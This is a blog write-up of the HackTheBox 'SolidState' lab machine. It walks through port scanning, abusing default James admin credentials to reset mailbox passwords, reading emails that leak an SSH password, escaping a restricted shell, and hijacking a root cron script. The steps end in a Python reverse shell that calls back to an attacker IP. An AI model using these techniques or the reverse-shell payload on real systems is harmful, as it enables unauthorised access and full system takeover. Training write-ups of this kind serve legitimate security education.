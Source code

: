 ```yaml
---
layout: post
title: HackTheBox | SolidState
date: 2018-07-03 23:00:00 +0000
categories:
- hackthebox
description: ''
image:
  feature: assets/img/Alchemical-Seal-Wallpaper-by-saintabyssal.png
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the SolidState device on [HackTheBox](https://www.hackthebox.eu).

![](https://image.ibb.co/nHoHJb/1.png)

## Enumeration

As is tradition, we run a full nmap scan:

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|_  256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.232 [10.10.14.232]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

So one service definitely looks interesting, James 2.3.2. Typically, I would start my investigation on port 80 but based on my knowledge of the James Remote Admin tool. This service is typically left with default credentials which then can be used to change the passwords of the mail server users. From there we can access POP3 and snoop around the emails for the users.  

Logging in with Default Credentials: 

![](https://image.ibb.co/h9w4yb/2.png)

From this admin panel, we can change any user's password:

![](https://image.ibb.co/bu1hjG/3.png)

This makes it easy to enumerate each user's emails in turn.  For this we simply change each password to the user's username and then we can login to each one via POP3.  On Mindy's account we find some interesting emails.

```bash
root@kali:~/htb/SolidState# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We have recovered a username and password for Mindy, so let's SSH to the machine. Sounds easy enough. 

## Privilege Escalation

### Rbash escape

When we SSH to the device, we're greeted by a restricted shell.

![](https://image.ibb.co/cpZ2jG/4.png)

Escaping restricted shells could be a post in its own right so I'd recommend reading [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells), if you're interested in the topic.

We have a few options here.  We either utilise the above James exploit to write a payload to run `/bin/bash` when we log on, bypassing the shell, or return us a reverse shell.  Alternatively, we could just bash the `--noprofile` flag to bash on login as below, so rbash isn't loaded.

![](https://image.ibb.co/e1WhjG/5.png)

Upon our enumeration, we come across an interesting world-writeable file in /opt.  This might seem quite esoteric, but just remember to always check the `/opt` and `/usr/local` directories for any interesting custom packages or scripts.  Running [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) on every box you enumerate, and learning to pick out useful information is also an invaluable skill.  I recommend doing that here and finding where this file is referenced.

![](https://image.ibb.co/dk7NjG/6.png)

```python
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python

import os
import sys
if not os.geteuid() == 0:
    sys.exit("\nOnly root can run this script\n")
```

There's nothing in crontab, but considering it's been written as if only root can run it, and is owned by root, this suggests the root user may have a cron job set up for this script.  I had an inkling that this would be the case, so I wrote a script to fetch the root flag and output it to a temporary folder.  This one was definitely more down to CTF intuition than anything else.

We place the following code in tmp.py:

```python
#!/usr/bin/env python

import os

with open('/root/root.txt', 'rb') as rootfile:
    with open('/var/tmp/.crash', 'wb') as openthis:
        openthis.write(rootfile.read())
```

After a short amount of time, the flag is indeed written to the /var/tmp directory.

Getting a shell from this is then as simple as setting the python file to run any number of [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We'll place the following in tmp.py:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.15.174",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Wait a few minutes and:

![](https://image.ibb.co/iBjPyb/7.png)